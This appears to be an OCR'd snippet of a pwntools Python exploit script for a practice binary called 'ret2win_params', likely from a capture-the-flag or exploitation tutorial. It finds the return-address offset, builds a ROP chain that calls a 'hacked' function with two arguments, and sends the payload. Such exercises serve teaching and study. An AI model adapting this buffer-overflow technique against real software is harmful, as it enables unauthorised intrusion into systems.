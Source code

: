       # Set up pwntools for the correct architecture
      exe = './ret2win_params'
      # This will automatically get context arch, bits, os etc
      elf = context.binary = ELF(exe, checksec=False)
      # Enable verbose logging so we can see exactly what is being sent (info/debug)
      context.log_level = 'debug'
      
      # ===========================================================
      #                    EXPLOIT GOES HERE
      # ===========================================================
      
      # Pass in pattern_size, get back EIP/RIP offset
      offset = find_ip(cyclic(200))
      
      # Start program
      io = start()
      
      # ROP object
      rop = ROP(elf)
      rop.hacked(0xdeadbeef, 0xc0debabe)
      
      # Build the payload
      payload = flat({
          offset: rop.chain()
      })
      
      # Save the payload to file
      write('payload', payload)
      
      # Send the payload
      io.sendlineafter(b':', payload)
      